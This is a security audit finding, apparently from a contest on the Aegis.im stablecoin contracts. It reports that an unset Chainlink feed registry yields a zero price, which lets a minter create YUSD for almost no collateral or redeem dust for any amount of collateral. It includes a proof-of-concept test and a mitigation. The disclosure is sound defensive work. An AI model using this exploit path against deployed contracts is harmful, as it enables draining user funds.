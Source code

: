 Soaring Lemon Finch

High

# All collaterals in the protocol could be drained when `_feedRegistry` is not set

### Summary
Aegis.im can be deployed on both **Ethereum mainnet** and **BNB Smart Chain mainnet**.
Aegis.im relies on [Chainlink Feed Registry](https://docs.chain.link/data-feeds/feed-registry) for collateral prices in YUSD minting and redemption.
However, Chainlink didn't deploy feed registry on BNB Smart Chain mainnet. Under such circumstance, `_feedRegistry` can be `address(0)`, and the price of collateral will be `0`:
```solidity
  function _getAssetUSDPriceChainlink(address asset) internal view returns (uint256, uint8) {
    if (address(_feedRegistry) == address(0)) {
@>    return (0, 0);
    }

    (, int256 answer, , uint256 updatedAt, ) = _feedRegistry.latestRoundData(asset, Denominations.USD);
    require(answer > 0, "Invalid price");
    require(updatedAt >= block.timestamp - chainlinkAssetHeartbeat[asset], "Stale price");

    return (uint256(answer), _feedRegistry.decimals(asset, Denominations.USD));
  }
```
When minting YUSD, [`_calculateMinYUSDAmount()`](https://github.com/sherlock-audit/2025-04-aegis-op-grant/blob/main/aegis-contracts/contracts/AegisMinting.sol#L735-L739) will be used to calculate the total amount of YUSD to be minted:
```solidity
254:    uint256 yusdAmount = _calculateMinYUSDAmount(order.collateralAsset, order.collateralAmount, order.yusdAmount);
255:    if (yusdAmount < order.slippageAdjustedAmount) {
256:      revert PriceSlippage();
257:    }
```
`yusdAmount` will be same as `order.yusdAmount` if `chainlinkPrice` is `0`(aka `_feedRegistry` is `address(0)`):
```solidity
  function _calculateMinYUSDAmount(address collateralAsset, uint256 collateralAmount, uint256 yusdAmount) internal view returns (uint256) {
    (uint256 chainlinkPrice, uint8 feedDecimals) = _getAssetUSDPriceChainlink(collateralAsset);
@>  if (chainlinkPrice == 0) {
@>    return yusdAmount;
@>  }

    uint256 chainlinkYUSDAmount = Math.mulDiv(
      collateralAmount * 10 ** (18 - IERC20Metadata(collateralAsset).decimals()),
      chainlinkPrice,
      10 ** feedDecimals
    );

    // Return smallest amount
    return Math.min(yusdAmount, chainlinkYUSDAmount);
  }
```
As we can see, the minter assign `order.yusdAmount` to arbitrary value and mint YUSD as their wish, then they can drain the whole YUSD market.

This issue could also happen to [`approveRedeemRequest()`](https://github.com/sherlock-audit/2025-04-aegis-op-grant/blob/main/aegis-contracts/contracts/AegisMinting.sol#L315-L358) where the redeemer can redeem 1 wei of YUSD for any amount of collateral if both `_feedRegistry` and `aegisOracle` are `address(0)`

### Root Cause

Minting/Redeeming YUSD lacks of sanity check when `_feedRegistry` is `address(0)` or `aegisOracle` is not set

### Internal Pre-conditions

_No response_

### External Pre-conditions

_No response_

### Attack Path

_No response_

### Impact
A malicious minter could mint YUSD arbitrarily without any collateral or redeem 1 wei YUSD for any amount of collateral

### PoC
Copy below codes into [4_aegis_minting.spec.ts](https://github.com/sherlock-audit/2025-04-aegis-op-grant/blob/main/aegis-contracts/test/4_aegis_minting.spec.ts) and run `yarn test`:
```solidity
  describe('#mintYUSD', () => {
    describe('success', () => {  
      it.only('should mint arbitrary amount of YUSD', async () => {
        const [owner, sender] = await ethers.getSigners()

        const { aegisMintingContract, aegisMintingAddress, assetContract, assetAddress, aegisConfig, yusdContract} = await loadFixture(deployFixture)

        await aegisMintingContract.grantRole(COLLATERAL_MANAGER_ROLE, owner)
        await aegisConfig.setOperator(owner, true)
        await aegisConfig['whitelistAddress(address,bool)'](sender, true)

        await assetContract.mint(sender.address, ethers.parseEther('1000'))
        await assetContract.connect(sender).approve(aegisMintingAddress, ethers.parseEther('1000'))

        const collateralAmount = 1
        const yusdAmount = ethers.parseEther('10000')

        const blockTime = await time.latest()
        const order = {
          orderType: OrderType.MINT,
          userWallet: sender.address,
          collateralAsset: assetAddress,
          collateralAmount: collateralAmount,
          yusdAmount: yusdAmount,
          slippageAdjustedAmount: yusdAmount,
          expiry: blockTime + 10000,
          nonce: Date.now(),
          additionalData: encodeString(''),
        }
        const signature = await signOrder(order, aegisMintingAddress)

        // Mint tokens first
        await expect(aegisMintingContract.connect(sender).mint(order, signature)).not.to.be.reverted
        const yusdMinted = await yusdContract.totalSupply()
        const collateralDeposited = await assetContract.balanceOf(aegisMintingAddress)
        //@audit-info the price of assetAddress is 0 (because _feedRegistry is address(0))
        await expect(aegisMintingContract.assetChainlinkUSDPrice(assetAddress)).eventually.to.be.equal(0)
        //@audit-info sender minted 10000e18 YUSD with only 1 wei collateral
        await expect(collateralDeposited).to.be.equal(1)
        await expect(yusdMinted).to.be.equal(ethers.parseEther('10000'))
      })
    })
  })
```
As we can see, the minter can mint 10000e18 YUSD with only 1 wei collateral.
### Mitigation
Use price feed pair instead to obtain the price for each supported collateral on BNB Smart Chain mainnet or when `_feedRegistry` is not set